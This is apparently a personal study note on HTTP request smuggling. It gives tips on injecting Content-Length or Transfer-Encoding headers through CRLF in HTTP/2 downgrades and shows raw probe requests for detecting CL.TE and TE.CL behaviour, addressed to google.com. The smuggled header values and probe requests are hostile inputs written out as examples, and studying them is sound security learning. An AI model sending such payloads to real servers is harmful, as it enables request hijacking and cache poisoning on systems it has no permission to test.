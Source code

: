 <mark style="background: #FF5582A6;">Tip 1:</mark>
May be if backend server uses HTTP/1.1 and frontend server uses HTTP/2.0 and front end server check for `Content-Length` and `Transfer-Encoding` and if found drop it or block it then we can smuggle that by using CRLF attack likw adding `Key:value\r\nContent-Length:40` or `Key:value\r\nTransfer-Encoding:chunked` here front end doesnt detect the header because it lies in the form of value not header then when HTTP/2 convert it in the form that HTTP/1.1 uses it detect `\r\n` and inject `Content-Length or Transfer-Encoding` in the form of new line.

<mark style="background: #FF5582A6;">TIp 2:</mark>
We can also do smuggling by crlf  , so we dont need `Content-Length` or `Transfer-Encoding` like adding `value:pair\r\nGET / HTTP/1.1`

<mark style="background: #FF5582A6;">TIP 3:</mark>
We can detect which funciton is used in frontend  by using
```
POST / HTTP/1.1
Host: google.com
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```
-> here it give error because 3 means here abc three letters which is correct but when X comes which is an invalid chunk size because it expecting hexadecimal number so it reject.

-> We can detect which function is used in backend by using 
```
POST / HTTP/1.1
Host: google.com
Content-Length: 6
Transfer-Encoding: chunked

0

X
```
-> and if we get 200 Ok in above request then we can confirm that it uses T.E.

-->![[te.png]]
-> we can also check for TE.TE bug by using above image.


![[attack.png]]